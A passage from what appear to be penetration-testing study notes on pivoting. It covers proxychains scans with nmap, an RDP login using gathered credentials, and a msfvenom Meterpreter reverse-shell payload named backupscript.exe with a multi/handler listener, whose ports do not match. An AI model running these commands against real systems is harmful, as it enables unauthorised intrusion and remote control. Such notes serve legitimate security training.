 This is called **SOCKS tunneling**. We can only perform a **full TCP connect scan** over proxychains. Proxychains cannot understand partial packets, if you send partial packets like half connect scans, it will return incorrect results. Probably, the pings won't work due to the Windows' firewall. A full TCP connect scan without ping on an entire network range will take a long time. 

We can do it to a single target as:
```console
zero@pio$ proxychains nmap -v -Pn -sT <TARGET>
```

We can also use **Metasploit** to do it:
```console
zero@pio$ proxychains msfconsole
```

Depending on the level of access we have to this host during an assessment, we may try to run an exploit or log in using gathered credentials. For example, a RDP connection:
```console
zero@pio$ proxychains xfreerdp /v:<TARGET> /u:<USER> /p:<PASSWORD>
```

## Remote/Reverse Port Forwarding with SSH

Sometimes, we might want to forward a local service to the remote port. During a pentesting RDP is not always aviable. We might want to upload or download files, use exploits,.. In these cases, we would have to find a pivot host, which is a common connection point between our attack host and the target. Finding a host that can connect us (the attacker) with the target machine. 

![Example image](/assets/img/notes/system/33.png)

With the last image, tet's try with a reverse shell. First, start with creating one with `msfvenom`:
```console
zero@pio$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=<Interal IP of Pivot Host> -f exe -o backupscript.exe LPORT=8080
```

Prepare the listener port:
```console
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
msf6 exploit(multi/handler) > run
```
